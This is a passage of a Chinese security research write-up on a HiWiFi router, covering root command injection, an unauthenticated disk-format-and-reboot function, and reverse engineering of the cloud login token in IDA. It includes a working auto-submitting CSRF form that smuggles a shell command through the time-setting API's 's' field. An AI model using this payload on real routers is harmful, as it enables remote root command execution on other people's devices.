 就会在/tmp/目录下生成aa.txt，其内容为id命令执行后的结果

```
uid=0(root) gid=0(root)

```

远程攻击着可以构造自动POST的js代码，使用xss或者诱骗方式让用户访问，以达到远程攻击的效果。 攻击代码如下：

```
<form id='exp' action='http://192.168.199.1/cgi-bin/turbo/api/system/set_systime' method='post'>
    <input name='date' value='1'>
     <input name='h' value='1'>
    <input name='mi' value='1'>
    <input name='s' value="1';id>/tmp/exp.txt;'">
     <input type=submit>
</form>
<script>exp.submit();</script>

```

### 0x07 远程重启路由，清空闪存数据漏洞

* * *

该路由产品本身自带8G的存储空间，该存储空间可以为将来一些离线下载的APP提供存储。但是，在system.lua当中，存在format_disk()函数，该函数的功能是格式化存储空间并且重启路由器。最重要的是，该函数无需用户认证即可访问，可被远程攻击者和局域网攻击者所利用。其具体代码如图： ￼![enter image description here](http://drops.javaweb.org/uploads/images/742360bca10a8e72dadcdfe24605fb83eff80e12.jpg)

该函数在entry当中设置了true参数，允许未登录进行访问，在代码的12行中设定了强制格式化存储空间的标记，并且在22行当中执行重新启动的代码，系统在重启后将清空存储空间当中的数据。

### 0x08 对云平台自动登陆机制的分析

* * *

在对路由器的分析过程当中，发现APP应用的控制中心实际上并不存在于路由器当中，而是通过点击路由器管理界面上的云插件按钮，来自动跳转并登陆到app.hiwifi.com上的云平台来进行管理的。 在点击管理界面上的云插件按钮后，系统会跳转到一个中继页面。这个中继页面主要实现三个功能：一、检查路由器是否正常联网。二、从云端获取Token。三、使用第二步获取的Token登录云平台。具体代码如图所示： ￼![enter image description here](http://drops.javaweb.org/uploads/images/95d360ff32129f360cd12d9e641051c744593e27.jpg)

分析到这里，大家可能会想，这个token是如何获取的？有没有可能伪造呢？同样，我也被这个问题吸引住了，于是便有了下面的分析。

#### token的产生步骤

从上图中可以分析得出，api/passport/bind_token_v2这个函数的功能就是就是获取登录token，我们调出具体的代码来看一下，代码如图所示： ￼![enter image description here](http://drops.javaweb.org/uploads/images/113cf7d2e28575c4e1889d32bd8fee7cce7c0435.jpg)

从图中可以看到，是auth.get_token("passport")产生了用于登录的token，但是经过一段时间的分析，发现auth模块并不存在于lua源代码当中，而是以动态链接库的形式存在，来供系统调用的。 通过查找，发现auth函数库存在于/usr/lib/libauth.so，果断把它下载下来，进行下一步的分析。

#### 对token的产生机制进行分析

由于libauth.so是一个Linux下的动态链接库，那么我们就请出大名鼎鼎的IDA来对其进行逆向。 将libauth.so拖入IDA主界面，IDA马上识别出了文件类型，其类型为ELF for MIPS （Shared object）。点击OK进行进一步的逆向分析。 由于文件体积不大，IDA很快的就讲代码逆向出来 ，如图所示。 ￼![enter image description here](http://drops.javaweb.org/uploads/images/33abb42bf1329d132912cdfcfb394ae1f787f0b4.jpg)

在IDA的左侧窗口，我们可以看到这个动态链接库导出的所有函数，由于我们想要取得token的算法，根据函数名，我们很快就判断，auth_get_token_v2为生成token的函数。 跟进函数内部，发现反汇编的代码为MIPS的汇编语言，一下子就晕了。不过仔细一看，还是有一些明显的函数调用，可以大概猜测出token的产生流程。具体反汇编代码如图。 ￼![enter image description here](http://drops.javaweb.org/uploads/images/2fe37504b8a1463fa11f5e470dcb162fad33f0ea.jpg)
